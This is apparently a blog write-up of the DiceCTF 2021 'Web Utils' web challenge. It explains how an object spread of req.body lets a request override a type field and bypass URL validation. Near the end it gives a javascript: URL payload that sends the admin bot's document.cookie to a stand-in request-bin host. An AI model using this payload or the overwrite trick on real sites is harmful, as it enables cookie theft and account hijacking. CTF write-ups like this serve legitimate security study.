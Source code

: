 ```yaml
---
title: "Spread operator leading to XSS"
excerpt: "Writeup for the Web Utils chall in DiceCTF 2021."
date: 2021-02-08T09:15:30-03:00
categories:
  - Cybersecurity
tags:
  - Web
  - DiceCTF 2021
  - CTF
---
```


I found this chall very interesting because it has the same vulnerability as a [previous post I wrote](https://vccolombo.github.io/cybersecurity/idor-vulnerability-in-a-personal-project-api/) about a personal project of mine.

In this chall, you have pages to create both a shortened link to another URL or a Pastebin where you can write anything. They are both safe against XSS.

The problem arises in the API backend. At first, links you shorten should only start with `http://` or `https://`. But in the request to create them, you can add the field `type`, meaning you can use the CreatePaste API route to create a link by changing `type` to "link". This is possible because the object that is added to the database is created as follows:

`database.addData({ type: 'paste', ...req.body, uid });`

When `req.body` is spread, if it contains the field `type`, it will overwrite `type: 'paste'`. Now we can create an entry of type "link" without the check for `https?://`. By itself, this can't do much. However, one of the members of my team found a way to exploit it and get the flag.

In `view.html`, the page where you go when you open a link/pastebin, there is this line:

`if (type === 'link') return window.location = data;`

And by using the previous spread operator exploit, you can create a link with the following data:

`javascript:fetch('https://your-request-bin/c='+document.cookie)`

This special link executes javascript in the browser. So by sending it to the admin bot, it will execute a fetch to a site of our control containing his cookies. By checking the request on our page, it shows the admin's cookies, and we have the flag.
